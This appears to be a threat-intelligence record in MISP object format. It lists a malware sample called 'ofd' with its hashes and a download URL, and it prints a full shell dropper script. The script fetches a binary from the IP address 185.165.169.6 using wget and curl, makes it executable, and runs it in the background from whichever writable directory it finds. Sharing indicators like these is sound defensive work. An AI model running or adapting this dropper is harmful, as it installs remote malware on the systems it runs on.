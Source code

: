 ### file — File object describing a file with meta-information
* [Payload delivery] malware-sample: ofd|9f189f26da1206151ce39e5aab269ff6
* [Payload delivery] filename: ofd
* [Payload delivery] md5: <md5>
* [Payload delivery] sha1: <sha1>
* [Payload delivery] sha256: <sha256>
* [Other] size-in-bytes: 56392

### url — url object describes an url along with its normalized field (like extracted using faup parsing library) and its metadata.
* [Network activity] url: http://87.236.212.237/tmp/ofd
* [Network activity] hostname: 87.236.212.237
* [Other] text: http
* [Other] text: /tmp/ofd

### script — Object describing a computer program written to be run in a special run-time environment. The script or shell script can be used for malicious activities but also as support tools for threat analysts.
* [Other] text: #!/bin/sh
id1="fkbgh"
id2="jm"
if [ -x "/tmp/" ] && [ -w "/tmp/" ]; then
wget -O /tmp/`echo $id1` http://185.165.169.6/jp/`echo $id2`
curl -o /tmp/`echo $id1` http://185.165.169.6/jp/`echo $id2`
chmod +x /tmp/`echo $id1`
chmod 7777 /tmp/`echo $id1`
/tmp/`echo $id1` &
elif [ -x "/var/tmp/" ] && [ -w "/var/tmp/" ]; then
wget -O /var/tmp/`echo $id1` http://185.165.169.6/jp/`echo $id2`
curl -o /var/tmp/`echo $id1` http://185.165.169.6/jp/`echo $id2`
chmod +x /var/tmp/`echo $id1`
chmod 7777 /var/tmp/`echo $id1`
/var/tmp/`echo $id1` &
elif [ -x "/dev/shm/" ] && [ -w "/dev/shm/" ]; then
wget -O /dev/shm/`echo $id1` http://185.165.169.6/jp/`echo $id2`
curl -o /dev/shm/`echo $id1` http://185.165.169.6/jp/`echo $id2`
chmod +x /dev/shm/`echo $id1`
chmod 7777 /dev/shm/`echo $id1`
/dev/shm/`echo $id1` &
elif [ -x $JBOSS_HOME ] && [ -w $JBOSS_HOME ]; then
wget -O $JBOSS_HOME/`echo $id1` http://185.165.169.6/jp/`echo $id2`
curl -o $JBOSS_HOME/`echo $id1` http://185.165.169.6/jp/`echo $id2`
chmod +x $JBOSS_HOME/`echo $id1`
chmod 7777 $JBOSS_HOME/`echo $id1`
$JBOSS_HOME/`echo $id1` &
elif [ -x $HOME ] && [ -w $HOME ]; then
wget -O $HOME/`echo $id1` http://185.165.169.6/jp/`echo $id2`
curl -o $HOME/`echo $id1` http://185.165.169.6/jp/`echo $id2`
chmod +x $HOME/`echo $id1`
chmod 7777 $HOME/`echo $id1`
$HOME/`echo $id1` &
else
wget -O `echo $id1` http://185.165.169.6/jp/`echo $id2`
curl -o `echo $id1` http://185.165.169.6/jp/`echo $id2`
chmod +x `echo $id1`
chmod 7777 `echo $id1`
`echo $id1` &
fi
* [Other] text: Bash